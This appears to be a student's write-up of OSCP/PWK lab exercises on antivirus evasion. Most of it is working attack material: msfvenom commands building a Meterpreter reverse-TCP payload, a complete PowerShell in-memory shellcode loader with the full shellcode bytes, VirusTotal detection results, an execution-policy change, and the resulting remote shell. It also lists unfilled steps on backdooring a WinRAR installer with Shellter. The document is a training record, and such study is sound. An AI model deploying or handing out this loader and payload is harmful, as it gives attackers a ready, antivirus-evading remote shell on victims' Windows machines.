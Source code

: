 Exercises

# 17.3.3.2

Let's test Antivira. Create a Meterpreter payload.
```plaintext
kali@kali:~/gitWorkspace/pwk/oscpExercises/17_antivirusEvasion$ msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.119.214 lport=4444 -f exe > binary.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 341 bytes
Final size of exe file: 73802 bytes
```

Ensure Avira has Real-Time Protection ON.
![04834e49c4fd68267a86830846270600.png](../../_resources/fae027a68c01427ca80b7b6012545fef.png)

Transfer binary.exe to the Windows client and try to run it. We get a security alert.
![e1f882c4bfc650e2560bcc9f2f9a6331.png](../../_resources/64e246672a564e2eb10f499e027e39dc.png)


## 17.3.3.2.1. Review the code from the PowerShell script and ensure that you have a basic understanding of how it works
```powershell
$code = '

# Import VirtualAlloc from kernel32.dll. This will allow us to allocate memory
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

# Import CreateThread from kernel32.dll. This will allow us to create an execution thread
[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

# Import memset from msvcrt.dll. This will help us write arbitrary data to memory
[DllImport("msvcrt.dll")]
public static extern IntPtr memset(IntPtr dest, uint src, uint count);';

#
# NOTE: We are allocating the memory and executing a new thread in the current process (powershell.exe) rather than a rmeote one.
#

$winFunc =
  Add-Type -memberDefinition $code -Name "Win32" -namespace Win32Functions -passthru;


[Byte[]];
[Byte[]]$sc = <place your shellcode here>;

$size = 0x1000;

if ($sc.Length -gt 0x1000) {$size = $sc.Length};

# Allocate a block of memory using VirtualAlloc
$x = $winFunc::VirtualAlloc(0,$size,0x3000,0x40);

# Take each byte of the payload stored in the $sc byte array and write it to our newly allocated memory block using memset
for ($i=0;$i -le ($sc.Length-1);$i++) {$winFunc::memset([IntPtr]($x.ToInt32()+$i), $sc[$i], 1)};

# Our in-memory written payload is executed in a separate thread using CreateThread
$winFunc::CreateThread(0,0,$x,0,0,0);for (;;) { Start-sleep 60 };
```

## 17.3.3.2.2. Get a meterpreter shell back to your Kali Linux machine using PowerShell.

Create the same Meterpreter payload as earlier but do not save it as binary.exe.
```plaintext
kali@kali:~/gitWorkspace/pwk/oscpExercises/17_antivirusEvasion$ msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.119.214 lport=4444 -f powershell
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 341 bytes
Final size of powershell file: 1666 bytes
[Byte[]] $buf = 0xfc,0xe8,0x82,0x0,0x0,0x0,0x60,0x89,0xe5,0x31,0xc0,0x64,0x8b,0x50,0x30,0x8b,0x52,0xc,0x8b,0x52,0x14,0x8b,0x72,0x28,0xf,0xb7,0x4a,0x26,0x31,0xff,0xac,0x3c,0x61,0x7c,0x2,0x2c,0x20,0xc1,0xcf,0xd,0x1,0xc7,0xe2,0xf2,0x52,0x57,0x8b,0x52,0x10,0x8b,0x4a,0x3c,0x8b,0x4c,0x11,0x78,0xe3,0x48,0x1,0xd1,0x51,0x8b,0x59,0x20,0x1,0xd3,0x8b,0x49,0x18,0xe3,0x3a,0x49,0x8b,0x34,0x8b,0x1,0xd6,0x31,0xff,0xac,0xc1,0xcf,0xd,0x1,0xc7,0x38,0xe0,0x75,0xf6,0x3,0x7d,0xf8,0x3b,0x7d,0x24,0x75,0xe4,0x58,0x8b,0x58,0x24,0x1,0xd3,0x66,0x8b,0xc,0x4b,0x8b,0x58,0x1c,0x1,0xd3,0x8b,0x4,0x8b,0x1,0xd0,0x89,0x44,0x24,0x24,0x5b,0x5b,0x61,0x59,0x5a,0x51,0xff,0xe0,0x5f,0x5f,0x5a,0x8b,0x12,0xeb,0x8d,0x5d,0x68,0x33,0x32,0x0,0x0,0x68,0x77,0x73,0x32,0x5f,0x54,0x68,0x4c,0x77,0x26,0x7,0x89,0xe8,0xff,0xd0,0xb8,0x90,0x1,0x0,0x0,0x29,0xc4,0x54,0x50,0x68,0x29,0x80,0x6b,0x0,0xff,0xd5,0x6a,0xa,0x68,0xc0,0xa8,0x77,0xd6,0x68,0x2,0x0,0x11,0x5c,0x89,0xe6,0x50,0x50,0x50,0x50,0x40,0x50,0x40,0x50,0x68,0xea,0xf,0xdf,0xe0,0xff,0xd5,0x97,0x6a,0x10,0x56,0x57,0x68,0x99,0xa5,0x74,0x61,0xff,0xd5,0x85,0xc0,0x74,0xa,0xff,0x4e,0x8,0x75,0xec,0xe8,0x67,0x0,0x0,0x0,0x6a,0x0,0x6a,0x4,0x56,0x57,0x68,0x2,0xd9,0xc8,0x5f,0xff,0xd5,0x83,0xf8,0x0,0x7e,0x36,0x8b,0x36,0x6a,0x40,0x68,0x0,0x10,0x0,0x0,0x56,0x6a,0x0,0x68,0x58,0xa4,0x53,0xe5,0xff,0xd5,0x93,0x53,0x6a,0x0,0x56,0x53,0x57,0x68,0x2,0xd9,0xc8,0x5f,0xff,0xd5,0x83,0xf8,0x0,0x7d,0x28,0x58,0x68,0x0,0x40,0x0,0x0,0x6a,0x0,0x50,0x68,0xb,0x2f,0xf,0x30,0xff,0xd5,0x57,0x68,0x75,0x6e,0x4d,0x61,0xff,0xd5,0x5e,0x5e,0xff,0xc,0x24,0xf,0x85,0x70,0xff,0xff,0xff,0xe9,0x9b,0xff,0xff,0xff,0x1,0xc3,0x29,0xc6,0x75,0xc1,0xc3,0xbb,0xf0,0xb5,0xa2,0x56,0x6a,0x0,0x53,0xff,0xd5
```

The full powershell script with the meterpreter payload added:
```powershell
$code = '

[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

[DllImport("msvcrt.dll")]
public static extern IntPtr memset(IntPtr dest, uint src, uint count);';

$winFunc =
  Add-Type -memberDefinition $code -Name "Win32" -namespace Win32Functions -passthru;

[Byte[]];
[Byte[]]$sc = 0xfc,0xe8,0x82,0x0,0x0,0x0,0x60,0x89,0xe5,0x31,0xc0,0x64,0x8b,0x50,0x30,0x8b,0x52,0xc,0x8b,0x52,0x14,0x8b,0x72,0x28,0xf,0xb7,0x4a,0x26,0x31,0xff,0xac,0x3c,0x61,0x7c,0x2,0x2c,0x20,0xc1,0xcf,0xd,0x1,0xc7,0xe2,0xf2,0x52,0x57,0x8b,0x52,0x10,0x8b,0x4a,0x3c,0x8b,0x4c,0x11,0x78,0xe3,0x48,0x1,0xd1,0x51,0x8b,0x59,0x20,0x1,0xd3,0x8b,0x49,0x18,0xe3,0x3a,0x49,0x8b,0x34,0x8b,0x1,0xd6,0x31,0xff,0xac,0xc1,0xcf,0xd,0x1,0xc7,0x38,0xe0,0x75,0xf6,0x3,0x7d,0xf8,0x3b,0x7d,0x24,0x75,0xe4,0x58,0x8b,0x58,0x24,0x1,0xd3,0x66,0x8b,0xc,0x4b,0x8b,0x58,0x1c,0x1,0xd3,0x8b,0x4,0x8b,0x1,0xd0,0x89,0x44,0x24,0x24,0x5b,0x5b,0x61,0x59,0x5a,0x51,0xff,0xe0,0x5f,0x5f,0x5a,0x8b,0x12,0xeb,0x8d,0x5d,0x68,0x33,0x32,0x0,0x0,0x68,0x77,0x73,0x32,0x5f,0x54,0x68,0x4c,0x77,0x26,0x7,0x89,0xe8,0xff,0xd0,0xb8,0x90,0x1,0x0,0x0,0x29,0xc4,0x54,0x50,0x68,0x29,0x80,0x6b,0x0,0xff,0xd5,0x6a,0xa,0x68,0xc0,0xa8,0x77,0xd6,0x68,0x2,0x0,0x11,0x5c,0x89,0xe6,0x50,0x50,0x50,0x50,0x40,0x50,0x40,0x50,0x68,0xea,0xf,0xdf,0xe0,0xff,0xd5,0x97,0x6a,0x10,0x56,0x57,0x68,0x99,0xa5,0x74,0x61,0xff,0xd5,0x85,0xc0,0x74,0xa,0xff,0x4e,0x8,0x75,0xec,0xe8,0x67,0x0,0x0,0x0,0x6a,0x0,0x6a,0x4,0x56,0x57,0x68,0x2,0xd9,0xc8,0x5f,0xff,0xd5,0x83,0xf8,0x0,0x7e,0x36,0x8b,0x36,0x6a,0x40,0x68,0x0,0x10,0x0,0x0,0x56,0x6a,0x0,0x68,0x58,0xa4,0x53,0xe5,0xff,0xd5,0x93,0x53,0x6a,0x0,0x56,0x53,0x57,0x68,0x2,0xd9,0xc8,0x5f,0xff,0xd5,0x83,0xf8,0x0,0x7d,0x28,0x58,0x68,0x0,0x40,0x0,0x0,0x6a,0x0,0x50,0x68,0xb,0x2f,0xf,0x30,0xff,0xd5,0x57,0x68,0x75,0x6e,0x4d,0x61,0xff,0xd5,0x5e,0x5e,0xff,0xc,0x24,0xf,0x85,0x70,0xff,0xff,0xff,0xe9,0x9b,0xff,0xff,0xff,0x1,0xc3,0x29,0xc6,0x75,0xc1,0xc3,0xbb,0xf0,0xb5,0xa2,0x56,0x6a,0x0,0x53,0xff,0xd5;

$size = 0x1000;

if ($sc.Length -gt 0x1000) {$size = $sc.Length};

$x = $winFunc::VirtualAlloc(0,$size,0x3000,0x40);

for ($i=0;$i -le ($sc.Length-1);$i++) {$winFunc::memset([IntPtr]($x.ToInt32()+$i), $sc[$i], 1)};

$winFunc::CreateThread(0,0,$x,0,0,0);for (;;) { Start-sleep 60 };
```

Check it with Virus Total. 5/60 AV programs detected it.
![6d3d0920246ed664c969061ca416331e.png](../../_resources/4cfbf785cb5f4cefb945cdccd7c2dba0.png)

I was unable to scan a single file. I moved the script to the Documents folder and did a quicker scan of that folder. Antivira result: No detection!
![f069b8cd673b93b9ffcf4c9a110320e6.png](../../_resources/dc494d6b5b584fa6a0955ae21fa4b784.png)

Run the script. We get an error
```plaintext
C:\Users\Administrator\Desktop>powershell ./memInject.ps1          
./memInject.ps1 : File C:\Users\Administrator\Desktop\memInject.ps1 cannot be loaded because running scripts is disabled on this system. For more information, see about_Execution_Policies at https:/go.microsoft.com/fwlink/?LinkID=135170.                                                                          
At line:1 char:1                                                               
+ ./memInject.ps1
+ ~~~~~~~~~~~~~~~
    + CategoryInfo          : SecurityError: (:) [], PSSecurityException
    + FullyQualifiedErrorId : UnauthorizedAccess   
```

Change the policy for our current user to *Unrestricted*
```powershell
C:\Users\Administrator\Desktop>powershell                                       Windows PowerShell                                                              Copyright (C) Microsoft Corporation. All rights reserved.                                                                                                       PS C:\Users\Administrator\Desktop> Get-ExecutionPolicy -Scope CurrentUser       Undefined                                                                       

PS C:\Users\Administrator\Desktop> Set-ExecutionPolicy -ExecutionPolicy
Unrestricted -Scope CurrentUser

PS C:\Users\Administrator\Desktop> Get-ExecutionPolicy -Scope CurrentUser   
Unrestricted                                                                    
```

Start a meterpreter handle on Kali
![954abd1fb98fc0f87c0dc9825b4a436a.png](../../_resources/5016c5f052a644639007127021c9f5d5.png)

Run the powershellcode script
```powershell
PS C:\Users\Administrator\Desktop> .\memInject.ps1                                                                                                              IsPublic IsSerial Name                                     BaseType             -------- -------- ----                                     --------             True     True     Byte[]                                   System.Array         53542912
53542913                                                                        53542914                                                                        53542915 
...
```
![a1a57ffd0d2965b9bce9442900a49b53.png](../../_resources/59ff9e4ff2164562881046f423f3ea1c.png)

Notice we receive a Meterpreter shell
![f903cac1747585df0391c8bc0822db7a.png](../../_resources/2a9784943fe54b0a94827d408b5428c5.png)


## 17.3.3.2.3. Attempt to get a reverse shell using a PowerShell one-liner rather than a script.
Move the powershell script to the Apache web server and start Apache
```plaintext
kali@kali:~/gitWorkspace/pwk/oscpExercises/17_antivirusEvasion$ sudo cp memInject.ps1 /var/www/html
[sudo] password for kali: 
kali@kali:~/gitWorkspace/pwk/oscpExercises/17_antivirusEvasion$
kali@kali:~/gitWorkspace/pwk/oscpExercises/17_antivirusEvasion$ sudo systemctl start apache2
```



# 17.3.3.4
## 17.3.3.4.1. Inject a meterpreter reverse shell payload in the WinRAR executable. 


## 17.3.3.4.2. Transfer the binary to your Windows client and ensure that it is not being detected by the antivirus


## 17.3.3.4.3. Run the WinRAR installer and migrate your meterpreter shell to prevent a disconnect.
## 17.3.3.4.4. Attempt to find different executables and inject malicious code into them using Shellter. 